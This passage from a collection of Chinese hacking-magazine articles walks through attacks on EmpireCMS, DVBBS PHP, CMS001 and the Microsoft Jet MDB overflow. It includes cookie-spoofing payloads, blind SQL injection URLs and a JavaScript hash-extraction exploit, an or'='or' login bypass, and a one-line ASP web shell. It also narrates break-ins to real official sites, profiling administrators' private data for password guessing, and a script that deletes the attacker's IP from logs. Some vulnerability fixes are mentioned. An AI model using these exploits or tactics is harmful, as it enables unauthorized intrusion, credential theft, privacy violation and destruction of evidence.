cookie="ecmsloginlevel=1";alert(document.cookie);
cookie="ecmsloginadminstyleid=1";alert(document.cookie);
cookie="ecmsloginlic=empirecmslic";

// 其中“xx”需要根据实际修改，如 Cookie 前缀“ecms”及其他各项值，
// ecmsloginlevel、ecmsloginadminstyleid 默认取 1，
// 特别注意 ecmsloginlic 值，如果改变就必须从“e/class/functions.php”文件的 is_login() 函数确定


```

- ⑤ 直接请求 `e/admin/admin.php` 页面即可进行 Cookie 欺骗进入后台，如图19所示。
图19

- ⑥ 页面 `e/admin/phpinfo.php` 无需登录就可访问，可以获取 PHP 的所有信息！利用 `PATH_TRANSLATED`、`DOCUMENT_ROOT` 值可以获知 Web 绝对路径等信息，这样就可以使用 `load_file()` 或者 `into outfile` 读写文件，如图20所示。
图20

## 2）上传漏洞

漏洞7：由于上传文件时没有过滤扩展名后的空格，导致可直接上传 PHP 木马，分析略。首先在后台“系统设置->系统参数设置->文件设置->后台上传文件扩展名”中添加“.php ”（后面有空格），然后在“栏目管理->附件管理”中上传 PHP 木马文件，上传前在 PHP 文件扩展名后添加一个空格，这是典型的上传漏洞，无需多说。

## 3）跨目录浏览

其实上传漏洞足以让帝国崩溃，所以此文不将此漏洞编号，也不做详细分析。只要在“系统设置->系统参数设置->文件设置->备份设置->数据备份存放目录”中输入跨目录的路径，如“../../../../../../..”（向上返回6层目录），然后利用“系统设置->管理备份目录”即可跨目录浏览，并且可以“打包并下载”目录，如图21所示。
图21

## 后记

本文对双字节编码引起的 PHP 转义符被合并编码的现象，以及因此产生的注入漏洞做了系统分析。帝国CMS应该是第一个受害者，本文除了分析帝国CMS在 GET/POST/COOKIE 三个方面受到的影响以外，还对帝国CMS其他漏洞做了详细分析，其中 XSS 跨站、IP 与 Cookie 欺骗、上传漏洞、`phpinfo.php` 可直接访问等漏洞危害是严重的。我们知道，Apache+PHP+MySQL 环境运行权限是很高的，一旦稍有疏忽设置不当，网站被挂马后服务器便被掌控。通过本文我们应该得出一条重要的结论：在双字节编码的语言环境，仅仅通过 PHP 的 `Magic_quotes_gpc` 转义特殊字符是不能达到防注入目的的，还必须做进一步的字符过滤！其实我们可以将此结论延伸为多字节编码，随着互联网的普及，作为一种跨语言、通用的编码方式，UTF-8 的应用得到迅速发展，当 Unicode 编码值大于 `7F` 的字符编码为 UTF-8 时，将使用两个或更多字节表示（汉字使用三个字节），所以对于使用 UTF-8 编码的 PHP 页面，同样存在转义符被合并编码的问题。大家可以修改前面提到的 `test.php` 文件中 `charset` 为 UTF-8 进行测试。

帝国论坛有这样的说明文字：“安全，目前为止唯一未发现安全问题的CMS”，本文将打破这个神话，同时再次证明了安全只是相对的。但是帝国CMS的过滤函数 `RepPostVar()` 值得我们借鉴，它使用了“`$val != addslashes($val)`”条件判断字符串中是否存在敏感字符，`$val` 为 GET/POST/COOKIE 方式获取的字符串变量，经过了一次转义，`addslashes($val)` 为再次转义，所以此条件表示为“字符串一次转义后与二次转义后的结果不同”，即可判定该字符串中存在敏感字符，页面终止执行。代码如下：

```php
function RepPostVar( $val )
{
    if ( $val != addslashes( $val ) ) {
        // 如果字符串一次转义与二次转义不同，则存在敏感字符，终止页面执行
        exit();
    }

    $val = str_replace(...);
    $val = str_replace(...);
    $val = str_replace(...);
}
```

```php
$val = str_replace(..., ..., $val);
$val = str_replace(..., ..., $val);
$val = str_replace(..., ..., $val);
$val = str_replace(..., ..., $val);
$val = addslashes( stripslashes( $val ) );
return $val;


```

最后还要说明的是，帝国CMS主要函数文件（如 `class` 目录中）使用 Zend Encoder 方式加密，如果想系统分析学习，必须使用 DeZend 等工具解密。另外，当启用 `php.ini` 文件中的 `magic_quotes_sybase` 设置项时，PHP 将使用 `''` 替代 `\'` 的转义，但这只要在单引号前加 `\` 便可绕过，比如 `\'` 经 GET/POST/COOKIE 获得后成为 `\''`，当引入 SQL 语句时，`\` 作为 MySQL 的转义符，所以同样存在注入。

我一开始只是想分析帝国CMS的安全性，不料无意间发现了双字节编码引发的 PHP 安全隐患，于是整理成此文，涉及的内容可能比较繁杂，也难免疏漏，不足之处还望大家指正。

- 前置知识：PHP
- 关键词：脚本、SQL注入、社会工程学

## DVBBS PHP盲打
文／图 oldjun

几个月前，DVBBS PHP2.0 暴出了一个可以直接读出管理员密码的 SQL 注入漏洞。当这个漏洞出来的时候，看得我心直痒，怎么会有这样的漏洞啊！DVBBS PHP2.0 这套代码我还没仔细看过，于是下载后粗略看了一下，接着花了3天时间，拿下了 `p.dvbbs.net`，即动网 PHP 的官方网站，并得到了 WebShell。总的来说，这次入侵凭的是二分技术加一分运气。

### SQL注入漏洞

下载后检查了好久，终于在 `topicother.php` 中发现了一处 SQL 注入漏洞，但并不像前段时间暴出的漏洞那么简单，不能把密码直接读出数据库并显示出来。存在漏洞的是活动帖子报名主函数，其代码如下：

```php
function PostActive_Main(){
    ......
}
```

```php
$TopicID = $GLOBALS['id'];
$activeid = trim($_GET['activeid']);
// activeid 并没有过滤
$timemode = $_POST['payment'];
$systemmode = trim($_POST['contact']);
$message = trim($_POST['message']);
$gettimemode = trim($_POST['timemode']);
$getstarttime = trim($_POST['starttime']);
$getendtime = trim($_POST['endtime']);
$getexpiretime = trim($_POST['expiretime']);
if($timemode==0)
    $costnum = 0;
else
    $costnum = intval(trim($_POST['payvalue']));

if($query = $db->query("SELECT ... WHERE activeid='{$activeid}'")){
    $activeinfo = $db->fetch_array($query);
    if(!empty($activeinfo)){
        $db->free_result($query);
    }
}

if($num = $db->query("SELECT count(*) as num from {$dv}activeuser where activeid='".$activeid."'")){
    $activenum = $db->fetch_array($num);
    if(!empty($activenum)){
        $db->free_result($num);
    }
}

// 如果查取的 activeid 不正确或者后面注入的条件不成立
if($activenum['num'] >= $activeinfo['strength']){
    head(0,0,0,$arrNavMenu);
    showmsg($lang['Active.Error.str1']);
    exit;
}

// 如果 activeid 正确（后面注入条件也成立），但没有登录
if($userid==0){
    head(0,0,0,$arrNavMenu);
    showmsg($lang['Active.Error.str2']);
    exit;
}

// 如果 activeid 正确并已登录，提交时联系方式为空或长度<8
if(''==$systemmode || strlen($systemmode)<8){
    head(0,0,0,$arrNavMenu);
    showmsg($lang['Active.Error.str6']);
    exit;
}
```

要想利用这个漏洞，首先要确定有没有 `activeid=1` 的活动帖子，也就是在论坛目录后加上 `topicother.php?t=9&action=join&activeid=1`。若显示“对不起！本活动报名人数已满！”，则有可能不存在，那就自己注册账号进去发个活动帖子。

根据上面的解释，大家已经看出来该怎么注入了吧？并不是什么都需要工具的。判断条件正确就返回正常，错误就不正常显示，这里不也是同样的道理吗？不管有没有登录，出错都会显示“对不起！本活动报名人数已满！”，如果判断条件正确，没有登录的话就显示“请登录后操作！”，已经登录则显示“对不起，联系方式不能为空或小于8个字符！”。

于是我手动测试了一下官方网站，成功获得了一个管理员的16位 MD5 密码。但是怎么能更简单地加以利用呢？因为没有开发 Application 程序的经验，所以我没想去写 EXP 工具，但一直手工多麻烦啊？后来在帮助下，写出了一个可以读取任意 DVBBS PHP 站点管理员密码的基于页面的 Exploit code，主要实现代码如下。

```javascript
function sendCall(i,j,url,w,p){
    if(p=="temp"){ p=url; }
    // 后台密码、用户名、关联的前台用户名
    switch(parseInt(w)){
        case 0:
            url = p+"/**/and/**/ascii(mid(password,'"+i+"',1))='"+j+"')/**/";
            break;
        case 1:
            url = p+"/**/and/**/ascii(mid(username,'"+i+"',1))='"+j+"')/**/";
            break;
        case 2:
            url = p+"/**/and/**/ascii(mid(adduser,'"+i+"',1))='"+j+"')/**/";
            break;
        // 前台密码、用户名
        case 3:
            url = p+"/**/and/**/ascii(mid(userpassword,'"+i+"',1))='"+j+"')/**/";
            break;
        case 4:
            url = p+"/**/and/**/ascii(mid(username,'"+i+"',1))='"+j+"')/**/";
            break;
    }

    if(window.ActiveXObject){
        xmlhttp = new ActiveXObject("Microsoft.XMLHTTP");
    }
    else if (window.XMLHttpRequest) {
        xmlHttp = new XMLHttpRequest();
        // 解决 FF 中跨域问题
        try {
            netscape.security.PrivilegeManager.enablePrivilege("UniversalBrowserRead");
        } catch (e) {
            alert("Permission UniversalBrowserRead denied.");
        }

        xmlHttp.onreadystatechange = function() {
            if (xmlHttp.readyState == 4 && xmlHttp.status == 200) {
                var str = xmlHttp.responseText;
                var md5hash = document.getElementById("md5hash");
                ...
                if (pass.length >= 16) {
                    alert("Exploitation Successfull, Admin MD5 Hash(or username): " + pass);
                    return true;
                }
                sendCall(j, url, w, p);
            }
        }

        xmlHttp.open('GET', url, true);
        xmlHttp.send(null);
    }
}
```

码了，速度还蛮快的，一会儿我就成功获得了后台所有的 MD5 密码。再到前台转了下，发现前台可以看到的管理员只有几个，貌似有的后台管理员前台并不显示为管理员，不过我也用工具暴出了前台管理员的密码，留作备用。

由于动网的前台与后台管理员之间有对应关系，因此不能用这个管理员的前台密码加上那个管理员的后台密码去登录后台。我研究了一下代码跟数据库，发现后台表中的 `adduser` 这个字段就是相对应的前台用户名。既然这样，我得到的信息就无法利用了，那怎么去获得一个后台权限呢？MD5 的存在让注入的光华变得暗淡了，怪不得当初那个漏洞可以简单地读取密码，大牛们都没把官方网站拿下。

想来想去还是没有进展，只能另辟蹊径，尝试社会工程学了。

## 社会工程学

其实这是最让我洋洋得意的地方，自我感觉无论什么技术，都没社会工程学来得让人心动，而且只要用心，社会工程学就可以被演绎得淋漓尽致。因为其中涉及到官方多位管理员的隐私，下面只简单地说一下。

如果 `adduser` 是中文的话，上面编写的工具就暴不了了，但我们可以用语句猜测（把 `adduser` 用十六进制处理就 OK 了）。

```sql
http://p.dvbbs.net/topicother.php?
t=9&action=join&activeid=1/**/and/**/1=(select/**/
count(*)/**/from/**/dv_admin/**/where/**/
adduser=0x......../**/and/**/id=..)
```

我用“..”代替省略掉的十六进制用户名，后面的 ID 也省略了，这样就可以轻松地猜出后台某个 ID 对应的前台用户名。以此为契机，我找了几个管理员作为突破口。

因为我有前台管理员权限，于是我从前台找到了所有管理员、超级版主以及可以看到的动网团队人员的信息，并收集归拢到一个 txt 文件中，然后到百度与谷歌搜索这些管理员的用户名，搜集一些他们平时访问的站点以及留下的信息，比如生日、身份证号码、QQ 号码、电话号码、邮箱等，最后根据这些信息与得到的 MD5 密码猜测可能存在的密码……

不过，这个 EXP 工具不支持中文用户名，但支持字母+数字+常用符号组合。接下来就简单了，我们首先判断官网后台的管理员人数。

```sql
http://p.dvbbs.net/topicother.php?
t=9&action=join&activeid=1/**/and/**/10=(select/**/
count(*)/**/from/**/dv_admin)
```

之后再判断后台管理员 ID 是从多少到多少。

```sql
http://p.dvbbs.net/topicother.php?/topicother.php?
t=9&action=join&boardid=2&id=1&activeid=1/**/and/
**/1=(select/**/count(*)/**/from/**/dv_admin/**/
where/**/id=1)


```

然后就可以根据存在的后台 ID 用工具暴密。

DVBBS 的 ASP 论坛获取了一些信息，最后终于拿下了 DVBBS PHP 官方网站的后台，如图1所示。
图1

## 后台跨目录写文件漏洞

花费了一天的时间，我得到了后台管理权限，真的很艰难，但一切远未结束，还没拿到 WebShell 呢。不过一般而言，得到了后台权限，就离 WebShell 不远了。

我在后台用 syinfo.php?act=phpinfo 查看了下系统，为典型的 LAMP 组合。按照常规思路，我准备写个 PHP 模板，可是新建模板的时候却出错了，不是 0777 权限，写不进去。继续查找，在模板页下又找到一个建目录的地方，不过依旧没权限建。哎，Linux 就是麻烦，如果是 Windows 肯定不会这样。想到可写，我突然眼前一亮，这个站可以有可写的地方啊，比如上传头像、上传图片或者文件，都需要可写的目录。Linux 权限设置虽严谨，但总会留下这样地方，问题是我该怎么利用呢？

多次尝试了跨目录建目录与文件失败后，我决定阅读源代码寻找契机。打开 admin 里的 template.php，这一读不要紧，居然发现了可以跨目录写文件的漏洞。

```php
if(!is_dir($destfile)) {
    if ($issafemode && ini_get('safe_mode')) {
        show_msg($lang['page_title'], str_replace('{ $TPL_DIR }', $destfile, $lang['tpl.error12']));
        footer();
        exit;
    }
    if (!mkdir($destfile, 0777)) {
        show_msg($lang['page_title'], $lang['tpl.error4']);
        footer();
        exit;
    }
}
```

看来 $destfile 是关键了，再看看这个变量是什么。

```php
$destfile = simpleMapPath($_POST['add_directory'], $_POST['add_ename']);
```

有个 simpleMapPath 函数在过滤啊，怪不得。再看看这个函数的代码：

```php
function simpleMapPath($path)
{
    global $_SERVER;
    if (empty($path)) {
        return false;
    }
    $path = preg_replace('#(\\+)|(//+)#i', '/', $path);
    if ($path{0} == '/') {
        $documentroot = realpath(str_replace('\\', '/', $_SERVER['DOCUMENT_ROOT']));
        return $documentroot.$path;
    } elseif(substr($path, 0, 3) == '../') {
        return $path;
    } else {
        return ROOT_PATH.$path;
    }
}
```

看了这段代码后，我写了个 PHP 文件，把这个函数复制进去本机测试，完全可以写进上一层目录。无论是绝对路径还是相对路径，都可以轻松在 uploadfile 里写目录，然后在其中建个模板并编辑，就拿到了 WebShell。

## 清理痕迹

成功获取 WebShell 后，我继续尝试提权，但均以失败告终。有关 Linux 提权的漏洞在这里似乎都不起作用，无奈之下只得放弃。不过在离开之前，痕迹还是必须要清理的。Linux 下的痕迹我就没办法了，没提权成功，权限太小；但网站留下来的东西必须清理。于是写了个如下的 clear.php 文件，传到 uploadfile 里面，浏览器中运行即可。

```php
<?php
define('ISDVBBS', TRUE);
require '../inc/config.php';
require '../inc/dv_clsSql.php';
$db = new sqldb();

defined('DV_MUF_DB_HOST') AND ($dbhost = DV_MUF_DB_HOST);
$db->connect($dbhost, $dbuser, $dbpw, $dbname, $charset, $pconnect);

// 清除我新建的模板
$db->query("DELETE FROM dv_styles WHERE name='啊啊啊'");
// 清除我所在的IP后台操作日志
$db->query("DELETE FROM dv_log WHERE i_p=58.213.51.65");

echo 'ok!';
?>


```

前置知识：ASP

关键词：脚本、CMS001、文件上传漏洞

# 发掘 CMS001 程序漏洞
文/图 梦幻剑客

最近在学习 .net 程序设计，既然是学习，当然少不了源代码了。到中国站长网站下载了几套 .net 源码，无意间看到 ASP 源码中有套刚推出的 CMS001 程序，下载回本地看了看代码，发现存在几个安全漏洞，在这里和大家共同分享一下。

## 注入漏洞

本程序前台页面是用标签调用的。ASP 程序写在外部程序中，通过调用标签来显示，所以本程序大部分页面还是安全的。不过有几个页面没有调用标签，同时也没有过滤非法字符，导致存在 SQL 注入。typeclass.asp 文件中的漏洞代码如下：

```asp
<%
dim content,template_content,Templatepath,myclass,pageid,id
classid=trim(request.querystring("classid"))
id=trim(request.QueryString("id"))
pageid=trim(request.QueryString("pageid"))

if isnumeric(id) then
  myclass.auto_id=id
  Templatepath=myclass.getTemplatePath(classid,"Content_Template")
else
  Templatepath=myclass.getTemplatePath(classid,"Index_Template")
end if
%>
```

这段代码中，classid、id、pageid 用 GET 方式获取外部变量，id 变量获取后在 if 语句中被 isnumeric 函数过滤，不存在注入，而 pageid 没有参与查询。在 `Templatepath=myclass.getTemplatePath(classid,"Content_Template")` 中，是 classid 变量参与查询标签模板调用的。

在 Parser_Loop.asp 文件中找到 getTemplatePath 函数，函数定义代码如下：

```asp
public Function getTemplatePath(classid,Template_Type)
  dim sql,rs,t_path,t_classname
  sql="select SiteDir,Template_Dir,Template_FileName from Template where ID=(select "&Template_Type&" from ClassTypes where classid='"&classid&"')"
  set rs=server.createobject("ADODB.recordset")
  rs.open sql,conn,1,1
end Function


```

代码中定义了全局变量 getTemplatePath，在外部获取的 classid 变量参与了 SQL 语句查询，这就是注入的关键所在。分别提交 `and 1=1` 和 `and 1=2` 得到不同的返回结果，说明存在注入。既然是 int 型注入点，`http://localhost/cms001/article/typeclass.asp?classid=10%20and%20exists(select%20*%20from%20admin)` 返回正常，继续手工猜解下去也可，不过用啊D更方便。利用啊D跑出账户和密码，破解 MD5 密码后即可进后台。对于这样的 int 型变量，用 isnumeric 函数过滤即可。

## 后台文件未验证

本程序后台部分文件没有通过 Session 验证，导致普通浏览者也有权限浏览。存在漏洞的文件为 `admin\link/add.asp`，如图1所示。

本文件有上传功能，如果过滤不严格的话，还会存在上传漏洞。这个页面熟悉脚本的朋友，很容易看出这个上传页面是动感购物上传……
图1

……利用明小子动感购物上传就可以获得 WebShell。上传路径如下：

```html
<input name="Submit1" type="button" id="Submit12" onClick="window.open('../upfile/upload_flash.asp?formname=myform&editname=linkpic&uppath=link&filex=jpg','status=no,scrollbars=no,top=20,left=110,width=420,height=165')" value="上传文件">
```

代码中 `uppath=link` 意思是将上传后的图片保存到 link 目录下，但网站根目录下没有对应的 link 文件夹，提示写入失败。这个问题是程序上的 bug，所以此漏洞不能成功利用。

## 管理后台登录验证漏洞

在读代码过程中，我发现整套程序似乎是模仿 ACTCMS 做的，整体风格也还可以，唯独在安全方面差强人意，可能是程序员对安全不太了解。判断后台管理员登录页面的 chklogin.asp 的代码如下：

```asp
<%
dim loginip,logintime,notetext
notetext=trim(Request.Form("notetext1"))
if Request.ServerVariables("HTTP_METHOD") = "POST" then
    if notetext <> "" and isnumeric(notetext) then
        if Cint(notetext) <> Cint(Session("CVNUN")) then
            response.write("<script>alert('验证码错误请重输');history.back(-1);</script>")
            Response.end()
        end if
    else
        response.write("<script>alert('验证码不能为空请重输');history.back(-1);</script>")
        Response.end()
    end if
    Call CheckLogin(Trim(Request.Form("username")),Trim(Request.Form("password")))
    Response.end()
end if
... ...
%>
```

代码中判断验证码是否为空和数字型，利用 call 语句调用了 checklogin 函数。再来看……

```vb
Private Sub CheckLogin(username,password)
    dim loginip,logintime
    password=MD5(password)
    sql="select * from admin where username='"&username&"' and password='"&password&"' and flag=1"
    set rs=conn.execute(sql)
    ... ...
end Sub


```

代码中的 username 和 password 分别在上面的代码中获取，`Trim(Request.Form("username"))` 和 `Trim(Request.Form("password"))` 简单地过滤了两边的空格。虽然 password 变量通过 MD5 加密了，利用 `or'='or'` 经典的布尔运算就可成功绕过认证。当在用户名和密码处输入 `or'='or'` 时，SQL 语句变为 `select * from admin where username='' or ''='' or '' and password='"&password&"' and flag=1`，通过运算得出“假 or 真 or 假”，结果为真，自然成功绕过验证，如图2所示。
图2

此漏洞的修补办法是将代码  
`Call CheckLogin(Trim(Request.Form("username")),Trim(Request.Form("password")))`  
修改成  
`Call CheckLogin(Replace(Trim(Request.Form("username")),"'",""), Replace(Trim(Request.Form("password")),"'",""))`，  
过滤单引号就可以了。

## 默认安装文件未删除漏洞

本程序第一次安装的时候会提示运行 install 目录下的 default.asp 文件来安装。按照提示安装后，此文件并未自动删除，导致出现安全漏洞。这个漏洞极其严重，几步就可以轻松修改管理员密码，如图3所示。
直接修改管理员账户和密码，安装成功后就可登录后台。此漏洞严重，解决的办法也很简单。在 install/default.asp 文件的如下位置处写入以下代码：

```asp
<%
call FSOSaveFile(connStr_File,"../admin/inc/connStr.asp")
call FSOSaveFile(checkLogin_File,"../admin/inc/checklogin.asp")
call FSOSaveFile(config_File,"../admin/inc/config.asp")
set delfso = server.createObject("scripting.filesystemobject")
filename1 = server.mappath(".") & "\default.asp"
if delfso.fileexists(filename1) then
  response.write("<script>alert('恭喜您，系统安装成功');window.location.href='/&SiteDir&/admin/login/'</script>")
  delfso.deletefile(filename1)
  set delfso = nothing
  response.end
end if
%>


```

利用 FSO 组件新建一个对象，将对象实例化给出相对路径，利用 FSO 的 deletefile 方法删除安装文件即可。

## 上传漏洞

在第二个漏洞的发掘过程中，有个上传文件的功能，此上传文件是动感购物上传页面，文件位于 `admin/upfile/` 目录下。该文件没有包含后台验证文件，普通用户可以浏览。在 IE 中输入 `http://localhost/cms001/admin/upfile/upfile_flash.asp`，提示成功上传。打开明小子动感购物上传功能，利用默认的 Cookies 值就可成功提交，如图4所示。

接下来说说本程序在后台拿 WebShell 的方法。本程序可以在前台利用上传漏洞得到 WebShell。

后台“模板管理”中有修改本地文件源码的功能，如图5所示。在配置模板具体页面中写入一句话木马 `<%execute request("value")%>` 就可得到 WebShell。至于跨站攻击我就不测试了，估计也少不了。
## 入侵官方网站

官方网站首页都生成了静态页面，新闻页也是静态页面。不过和本地测试差不多，也存在注入漏洞，如图6所示。
将其放到啊D里面检测一番，密码破解不了，官方网站安全性的确好点。再尝试访问 install/default.asp 文件，发现文件不存在了。再看看有没有上传漏洞，访问 `http://cms001.com/site/admin/upfile/upfile_flash.asp`，和本地一样提示成功，用 Dorian3.5 动感上传即可得到 WebShell，如图7所示，这样就轻松拿下了官方网站。
总而言之，本程序漏洞不少，希望作者能改进这些安全问题。我已经联系了作者，大家就不要再以官方网站做测试了。

适合读者：漏洞爱好者、溢出爱好者  
前置知识：缓冲区溢出基本原理
# 浅析 Microsoft Jet Engine MDB File 溢出漏洞

文／图 爱无言

当我第一次在网上看到关于这个漏洞的公告时，耳边就响起了不断的争论，原因就是因为这个漏洞是一个在地下流行了快一年的漏洞，究竟是谁发现的，而公布者与漏洞发现者是不是一个人，就成了大家争论不休的话题。孰对孰错，我相信在安全这个领域里大家还是能够看清的，奉上一句话，希望能与大家共勉——我们只谈技术！

抛开这些，还是让我们回归到正题上来。既然这个漏洞公布了，相信那些勇于尝鲜的朋友们早已经得到那个可以弹出一个计算器的 mdb 文件了，但是一个简单得不能再简单的计算器怎么能满足我们日益增长的“物质与精神”的需求呢？自己常常看到在一些安全论坛中，有人发帖询问如何修改这个 mdb 文件能够让其执行别的程序，或者如何能够换一段自己的 ShellCode 到这个 mdb 文件里呢？不论这些问题背后的目的是什么，但要想弄明白怎么修改 ShellCode，就需要一定的技术含量了。

如果大家留意过以前 gyzyy 的文章，就会知道这种技术就是如何利用已经公布的 POC 来打造属于我们自己的 exploit。而这一切首先要做的就是必须先要分析清楚 Microsoft Jet Engine MDB File Parsing Stack Overflow 的原因，找到漏洞触发的方法，然后加入我们的 ShellCode。既然有了清晰的思路，下面我们就开始本次的分析之旅吧。

公布出的这个 POC 其实已经是一个 exploit 了，只是说漏洞的细节不是很清楚，所以比较难回溯出漏洞触发的原因。在我使用 UltraEdit32 打开这个 mdb 文件时，我建立的第一个思路就是看能不能找到那段能够执行计算器的 ShellCode。

为什么要这样做？我的想法是，既然关于这个漏洞的细节比较模糊，利用百度查询出来的结果都只是简单的一个利用 mdb 文件，没有具体说明什么原因，但是根据一般的栈溢出漏洞的利用原理，要么是先利用过长的字符串填充栈空间到函数的返回地址，然后利用一个 jmp(寄存器) 指令的地址覆盖函数的返回地址，后面再接 ShellCode。这种利用方法主要借助寄存器指向后面的 shellcode，其在内存中的形式类似图1。

```
AAAAAAAAAAAAAA + jmp(reg) + shellcode
过长字符串


```

图1

此时只要我们找到了 ShellCode，通过修改 jmp(reg) 指令地址的数值，把其改成一个诸如 66666666 这样一般不会存在的地址，再打开该 POC 文件就会引发程序出错，然后利用调试器查看程序出错时的情况，就可以准确找到程序溢出时的地址了。还有一种情况，栈溢出的利用可以通过 SEH 链的覆盖也能获得利用的权限，这主要是利用在一些覆盖栈数据对程序造成破坏作用的情况下，它的原理其实和上面的触发方式差不多，只是覆盖的地址不再是函数的返回地址，而是 SEH 链的异常处理函数地址。这样一旦程序在溢出出错后，系统就会去执行异常处理函数，而该函数地址却已经被我们控制，进而……执行我们想要的ShellCode代码了。无论怎样，只要我们找到了ShellCode，那么离找到溢出的原因就不远了。

在UltraEdit32中，点击快捷键Ctrl+F，出现“查找”对话框，在查找内容中填入“calc”4个字符。这样写的原因是计算器的程序名称就叫做calc.exe。公布出来的mdb文件能执行计算器，其ShellCode中必会有计算器的名称，除非是ShellCode加密、断句、双字节或者数据库本身有加密，那样就得费点时间查找了。点击查找后，我们果然找到了这段字符，如图2所示。
图3
图2

这段ShellCode很是眼熟，因为自己编写过ShellCode，所以多少还是知道一些的。现在我们找到了ShellCode，那么就该找到那个覆盖返回地址或者SEH的关键数值了。正如我前面分析过的，无论是覆盖返回地址还是覆盖SEH，只要找到ShellCode，那么离这些地址就不远了。只有修改这些用来进行覆盖地址的数据，我们才能重新触发程序出错，从而来分析出溢出漏洞发生的原因。

通过将执行计算器的ShellCode剥离出来，我发现有一段数字很是让人怀疑，其数值为1B0D4C42，这个数值跟ShellCode确实没什么关系。我试图将其修改为FFFFFFFF，然后保存这个被修改的mdb文件。使用Access2003打开该文件后，Access2003程序瞬间消失，但计算器却没有出现。这会不会告诉我们，刚才的修改已经准确地找到了溢出发生的地方呢？打开Ollydbg程序，用它打开Access程序，F9运行，然后在打开的Access中选择文件打开我们刚才修改保存的mdb文件，此时Ollydbg停了下来，如图3所示。

注意到图中这段出错的代码了吗？看起来像是一个无法利用的写入错误，千万别这样简单地看待你所要分析的漏洞。其实这是一段非常典型的类似strcpy的函数实现代码，其中ecx控制着字符串拷贝的次数。我们看到刚开始ecx中的内容是由edx赋值过来的，也就是0x5200，见上图右侧的寄存器窗口。转换这个数字为十进制，结果为20992，这么多次的循环移动字符串，如果目标地址空间分配不够，势必会发生一个写入错误。

现在我们既然终于找到栈空间溢出的错误了，那么随之又产生了一个新问题：我们是要通过覆盖函数返回地址呢，还是覆盖SEH链来获得执行ShellCode的权限？仔细看看这个栈溢出的错误，我们完全可以断言POC的公布者使用的是覆盖SEH的办法来获得执行ShellCode权限的。因为我们看到在Ollydbg的调试中，利用修改后的mdb进行测试的时候，Ollydbg程序捕获的是一个内存写入性的错误，这其实会引发一个异常。如果是一个覆盖函数返回地址的利用方式，则Ollydbg捕获的应该是一个读取某某地址出错，因为EIP寄存器的值会被修改。既然异常发生了，那么异常只能被SEH链上的异常处理函数进行处理，所以要想在溢出后控制程序，就必须截获异常处理函数。为了证明我的断言，我再次使用Ollydbg调试这次溢出的结果，选择查看SEH链，如图4所示。

看到SEH链的内容了吗？它竟然就是我们刚才怀疑的那段数据。通过上面的一步一步的分析，我们现在知道这个mdb文件的溢出是利用覆盖SEH的方法来获得执行ShellCode的权限的。那么为什么POC的作者会选用1B0D4C42这个地址来覆盖这次溢出发生的SEH链呢？我们来更进一步分析一下。首先，0x1B0D4C42这个地址是存在于msjet40.dll文件中的，关于这一点我们在上面的图中可以清楚地看到，而同时，出现溢出问题的文件其实也就是这个文件，因为mdb这样的数据库就是由微软的数据库引擎文件解析的。我们通过Ollydbg去看看这个地址处的代码是什么，如图5所示。
图4
图6
图5

可以看到原来在地址0x1B0D4C42处的代码是一条`call [ebp+c]`指令，也就是说在溢出发生后，通过SEH链，程序会被执行到0x1B0D4C42处的call指令。这样的话，一旦`ebp+c`的内容就是一个指向我们可以控制的ShellCode的地址，我们就可以成功获得执行任意代码的权力了。情况是不是这样呢？我们在Ollydbg中查看一下`ebp+c`的内容，如图6所示。

看了这张图后，就不必再说什么了吧？`ebp+c`的内容为0013e25c，而在内存窗口中键入0013e25c后看到的，竟然就是我们在UltraEdit32中找到calc后的那段包含ShellCode的代码。至此，我们终于明白了POC的作者利用该漏洞的思路：通过覆盖SEH链，借助`[ebp+c]`的内容为mdb文件中的某个我们可以修改内容的位置，进而来获得执行ShellCode的权限。

总的来说，这个关于Microsoft Jet Engine MDB File溢出的漏洞是较为简单的，但是POC的作者利用思路确实很有技巧，我们应该学习一下这种思路。同时，在自己进行测试的时候发现，这个溢出漏洞对msjet40文件的版本还是有一定要求的，我作测试的msjet40文件版本为4.00.8618.0。下面再说一下ShellCode的修改方法：利用任意一款十六进制编辑软件打开随文章提供的mdb文件，找到偏移文件位置0x3336的地方开始替换即可。

这之后还有一个问题是大家最关心的，那就是这个漏洞能给我们带来什么好处呢？除去远程欺骗用户直接访问这个mdb文件进而触发漏洞利用以外，正像以前曾出现过的一个同样的Microsoft Jet Engine溢出漏洞，我们可以利用WebShell先上传修改好的mdb利用文件，然后编写一段简单的通过ADODB.Connection打开该mdb文件的脚本文件，调用该脚本文件就会触发一个本地溢出，从而获得在远程服务器上提升权限的机会。截止到目前为止，网上有人放出了一个带有反弹功能的本漏洞利用工具。这样的话，一旦我们在WebShell里调用这个mdb文件，就能成功地获得一个远程Shell了。可以说，这个漏洞为那些苦于WebShell提权的朋友们又找到了一个新的途径。关于这个漏洞的具体利用文件，大家可以访问http://www.blackunion.cn。本文分析的过程比较粗浅，如有不对的地方还请各位读者能够指点一二，不胜感激。

- 适合读者：入侵爱好者
- 前置知识：手机系统

# 手机入侵与入侵手机

文/图 爱无言
起初，我本来只打算写一篇简单的入侵文章，与大家分享一下如何在手机上做一些我们平常在计算机上进行网络攻击的方法。说白了就是将我们熟悉的计算机换成手机来入侵，但是承蒙《黑客防线》的器重，于是决定扩充一下文章涉及的内容，将其分成两个大的方面，一个是“手机入侵”，一个是“入侵手机”。正式开始前，我先声明一下，文章中涉及的一些技术、思想可能或多或少会引起某些人的注意，为了避免不必要的麻烦，文中我只给出部分代码，如果需要完整代码并且是为了研究技术，可以直接在黑防论坛留言给我。凡是非法利用本文介绍的技术引发的后果，与作者以及《黑客防线》均无任何关系。

## 手机入侵

“手机入侵”，顾名思义就是利用手机对外部设备进行入侵。这里为了内容有所侧重，我们只谈利用手机入侵网站服务器或者个人主机的可行性与怎样实施。

一般来讲，要想利用手机入侵服务器或者个人主机，就必须先说一下手机是如何接入Internet的。以中国移动上网服务为例，手机接入网络的方式分为两种，即net接入和WAP接入，也就是我们常说的CMNET和CMWAP。CMNET和CMWAP是中国移动GPRS网络的两个不同的APN（Access Point Name，接入点名称）。

